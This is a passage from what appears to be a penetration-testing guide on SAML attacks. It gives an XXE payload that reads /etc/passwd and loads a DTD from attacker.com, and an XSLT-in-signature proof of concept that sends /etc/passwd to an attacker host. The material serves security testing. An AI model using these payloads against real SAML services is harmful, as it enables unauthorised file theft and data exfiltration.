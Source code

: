```xml
<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY    file SYSTEM "file:///etc/passwd">
   <!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
  <samlp:Response ... ID="_df55c0bb940c687810b436395cf81760bb2e6a92f2" ...>
  <saml:Issuer>...</saml:Issuer>
  <ds:Signature ...>
    <ds:SignedInfo>
      <ds:CanonicalizationMethod .../>
      <ds:SignatureMethod .../>
      <ds:Reference URI="#_df55c0bb940c687810b436395cf81760bb2e6a92f2">...</ds:Reference>
    </ds:SignedInfo>
    <ds:SignatureValue>...</ds:SignatureValue>
[...]
```

## Tools

You can also use the Burp extension [**SAML Raider**](https://portswigger.net/bappstore/c61cfa893bb14db4b01775554f7b802e) to generate the POC from a SAML request to test for possible XXE vulnerabilities and SAML vulnerabilities.

Check also this talk: [https://www.youtube.com/watch?v=WHn-6xHL7mI](https://www.youtube.com/watch?v=WHn-6xHL7mI)

## XSLT via SAML

For more information about XSLT go to:

{{#ref}}
../xslt-server-side-injection-extensible-stylesheet-language-transformations.md
{{#endref}}

Extensible Stylesheet Language Transformations (XSLT) can be used for transforming XML documents into various formats like HTML, JSON, or PDF. It's crucial to note that **XSLT transformations are performed before the verification of the digital signature**. This means that an attack can be successful even without a valid signature; a self-signed or invalid signature is sufficient to proceed.

Here you can find a **POC** to check for this kind of vulnerabilities, in the hacktricks page mentioned at the beginning of this section you can find for payloads.

```xml
<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
  ...
    <ds:Transforms>
      <ds:Transform>
        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
          <xsl:template match="doc">
            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
            <xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
            <xsl:value-of select="unparsed-text($exploitUrl)"/>
          </xsl:template>
        </xsl:stylesheet>
      </ds:Transform>
    </ds:Transforms>
  ...
</ds:Signature>
```
